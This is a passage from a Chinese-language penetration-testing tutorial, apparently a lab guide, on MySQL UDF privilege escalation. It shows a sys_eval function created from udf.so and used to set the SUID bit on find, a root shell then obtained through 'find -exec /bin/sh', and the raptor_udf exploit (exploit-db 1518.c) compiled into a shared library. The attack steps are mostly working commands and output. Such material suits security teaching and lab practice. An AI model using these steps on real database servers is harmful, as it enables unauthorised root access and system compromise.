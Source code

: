 ```bash
0000000000000f80 T sys_set_init
                 U system
                 U waitpid
```

##### 开始提权

```bash
mysql> use mysql;
Database changed
mysql> create function sys_eval returns string soname "udf.so";
Query OK, 0 rows affected (0.00 sec)

mysql> select sys_eval('chmod u+s /usr/bin/find');
+--------------------------------------------------------------------------+
| sys_eval('chmod u+s /usr/bin/find')                                      |
+--------------------------------------------------------------------------+
| NULL                                                                     |
+--------------------------------------------------------------------------+
1 row in set (0.20 sec)

[root@localhost ~]# touch abc
[root@localhost ~]# find abc -exec "/bin/sh" \;
sh-4.4# whoami
```

### 8.5 MySQL UDF提权（高级版）

> 这个版本建立在非本地的环境下，并且无法直接将UDF文件写入到MySQL的plugin文件夹

#### 8.5.1 获取UDF文件

```bash
┌──(kali㉿kali)-[~/test]
└─$ searchsploit udf

┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# cp /usr/share/exploitdb/exploits/linux/local/1518.c ./
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -c 1518.c
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c  1518.o
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# gcc -g -shared -o  raptor_udf.so 1518.o -lc
                                                                                                                                                    
┌──(root㉿pinginglab)-[/home/pinginglab/test]
└─# ls
1518.c  1518.o  raptor_udf.so
```
